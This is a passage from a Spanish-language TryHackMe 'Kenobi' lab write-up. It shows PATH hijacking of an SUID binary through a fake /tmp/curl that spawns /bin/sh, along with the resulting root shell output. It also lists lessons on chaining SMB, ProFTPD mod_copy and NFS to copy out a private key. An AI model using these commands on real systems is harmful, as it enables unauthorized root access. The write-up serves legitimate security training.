El primer intento falló porque el archivo `curl` malicioso se había creado
en `/home/kenobi` (el directorio donde estábamos parados por defecto tras
el login SSH), mientras que el `$PATH` se había modificado para priorizar
`/tmp` — dos ubicaciones distintas que no coincidían. La corrección fue
simplemente posicionarse **dentro de `/tmp`** antes de crear el archivo,
para que la ubicación del `curl` falso y el directorio priorizado en el
`$PATH` fueran el mismo:

```bash
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

**Explicación técnica de por qué funciona:**
- `cd /tmp` — nos posicionamos en un directorio donde el usuario `kenobi`
  sí tiene permisos de escritura (a diferencia de `/usr/bin`, que solo
  root puede modificar). Esto es clave: no podemos alterar el `curl` real
  del sistema directamente, pero sí podemos crear uno falso en cualquier
  parte donde tengamos escritura, y luego manipular el orden de búsqueda
  del `$PATH` para que se use el falso en su lugar.
- `echo /bin/sh > curl` + `chmod 777 curl` — el archivo `curl` local es en
  realidad un script de una sola línea que invoca `/bin/sh` (una shell).
- `export PATH=/tmp:$PATH` — al anteponer `/tmp` al inicio del `$PATH`, el
  sistema encuentra nuestro `curl` falso **antes** de siquiera llegar a
  `/usr/bin/curl` (el real), porque la búsqueda de comandos sin ruta
  absoluta se detiene en la primera coincidencia.
- Al ejecutar `/usr/bin/menu` y elegir la opción 1 (`status check`), el
  binario —que tiene el bit **SUID** y por tanto corre como **root**—
  intenta invocar `curl` sin especificar su ruta completa. El sistema
  resuelve ese nombre usando el `$PATH` ya envenenado, ejecuta nuestro
  script en su lugar, y como el proceso padre (`menu`) ya tenía privilegios
  de root al momento de hacer esa llamada, **el `/bin/sh` resultante
  también hereda esos privilegios**.



```
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo)...
```

El `uid=0(root)` confirma la escalada exitosa — nótese que el `gid` y los
grupos secundarios siguen siendo los de `kenobi`, ya que solo el UID
efectivo cambió al heredar los privilegios del proceso SUID, no una sesión
completa de "login" como root.

### Captura de la flag de root

```bash
cd /root
ls
cat root.txt
```



**Root flag:** `[censurada — ver sección Flags]`

---

## Flags

- User: `[censurada]` — encontrada en `/home/kenobi/user.txt`
- Root: `[censurada]` — encontrada en `/root/root.txt`

*(Flags censuradas intencionalmente — sigue esta guía paso a paso para
obtenerlas tú mismo, en línea con las políticas de TryHackMe sobre no
publicar respuestas directas.)*

---

## Lecciones aprendidas

- **Cuando una herramienta no da resultado, no significa que la
  información no exista.** El script de nmap para shares SMB no devolvió
  nada, pero `enum4linux` (usando el mismo protocolo por debajo) sí lo
  logró. Vale la pena tener más de una herramienta para la misma tarea.
- **Filtrar `searchsploit` por versión exacta evita contar exploits que no
  aplican realmente al objetivo.** Una búsqueda genérica mezcla resultados
  de software completamente distinto con nombres parecidos.
- **`nc` tiene dos modos muy distintos** (`-l` = servidor/escucha, sin `-l`
  = cliente/conexión saliente) — confundirlos es un error común al
  empezar, y vale la pena tenerlo claro antes de usarlo en el examen real.
- **Encadenar servicios "menores" puede ser más efectivo que buscar un
  solo exploit grande.** Ningún servicio por sí solo daba acceso directo:
  SMB dio información, FTP dio una primitiva de copia de archivos, y NFS
  dio el medio para recuperar lo copiado. La explotación real muchas veces
  es una cadena, no un solo paso.
- **`mod_copy` (CVE-2015-3306) es un buen recordatorio de que la falta de
  autenticación en funciones "administrativas" de un servicio puede ser
  tan grave como una vulnerabilidad de ejecución de código directa** —
  aquí no se ejecutó código remoto, solo se abusó de una función de copia
  de archivos sin auth para exfiltrar una llave privada.
- **PATH hijacking depende de que la ubicación del binario falso coincida
  exactamente con el directorio priorizado en `$PATH`.** El primer intento
  falló por un detalle simple (estar parado en el directorio equivocado al
  crear el archivo) — buen recordatorio de verificar el `pwd` actual antes
  de asumir dónde quedó un archivo creado con una ruta relativa.
- **Un binario SUID "casero" (no parte del sistema operativo) siempre
  amerita revisión prioritaria** frente a binarios estándar del sistema,
  que ya vienen con SUID por razones legítimas y documentadas.
